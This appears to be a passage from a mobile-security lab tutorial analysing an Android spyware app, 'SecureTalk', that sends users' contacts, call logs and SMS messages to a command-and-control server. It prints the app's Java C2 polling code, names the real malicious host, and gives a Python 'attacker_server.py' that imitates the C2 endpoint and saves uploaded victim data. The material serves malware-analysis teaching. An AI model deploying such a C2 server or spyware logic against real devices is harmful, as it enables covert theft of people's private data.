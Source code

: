 The `processCommand()` function is implemented in the `App.java` file (you can run a recursive search to find it).

The first suspicious thing is happening at line 159, where the app is trying to ping a server with a hello request.
If the server is available, a second request is run, and the result is saved as a string in the `command` variable:

```java
if (!app.sendHttpRequest(Gloabal.DO_URL + "?type=hello&direction=send&id=" + App.this.m_strMyInfo).equals(Gloabal.ERROR_VALUE)) {
    App app2 = App.this;
    String command = app2.sendHttpRequest(Gloabal.DO_URL + "?type=command&direction=receive&id=" + App.this.m_strMyInfo);
```

According to the received command, the app is taking several malicious actions.

### Task

By analyzing the `processCommand()` function, try to answer the following questions:
- What is the URL of the server contacted by the app?
- What action is done by the app for each command received from the server and what information is leaked in each case?

We can observe that, by using the Android alarm mechanism, the app is able to constantly share with a remote server personal information of the user (contacts, calls, SMS messages), without any interaction. 


## Exploiting the App

The malicious server contacted by our **SecureTalk**  app is no longer available.
You can check this by running:
```bash
$ whois http://haeundaejugong.com/data/app.php
```

However, it is time for us to play the hacker role and exploit the app in order to get some sensitive info from the emulator.

First, let's prepare some sensitive data.
In your emulator, add a few fake contacts, send them some SMS messages and make some phone calls.

Create an `attacker_server.py` file with the following content:

```python
from fastapi import FastAPI, UploadFile
import uuid

app = FastAPI()


@app.get("/")
def read_root():
    return {"Hello": "World"}


@app.get("/data/jugong/do.php")
def read_item():
    return "UploadInfo"

@app.post("/data/jugong/do.php")
async def read_item(file: UploadFile):
    file_id = uuid.uuid4()
    with open(f"./capture_{file_id}", "wb") as f:
        f.write(await file.read())

    return file_id
```